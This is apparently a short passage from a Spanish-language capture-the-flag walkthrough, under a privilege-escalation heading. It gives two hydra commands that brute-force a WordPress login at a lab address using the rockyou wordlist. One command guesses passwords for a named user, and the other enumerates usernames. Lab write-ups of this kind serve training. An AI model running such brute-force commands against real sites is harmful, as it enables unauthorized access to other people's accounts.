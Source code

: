 ![alt text](image-33.png)

### Elevacion de privilegios

Necesito obtener privilegios para poder acceder al fichero user.txt y leer su contenido.



#### Intento de explotacion de usuarios con hydra

Usuario 1:

hydra -vV -l j@m3s -P /home/kali/Documents/Dictionaries/rockyou.txt 10.0.2.15:80/assets/fonts/blog http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=is incorrect'

hydra -vV -L /home/kali/Documents/Dictionaries/rockyou.txt -p wedontcare 10.0.2.15:80/assets/fonts/blog http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
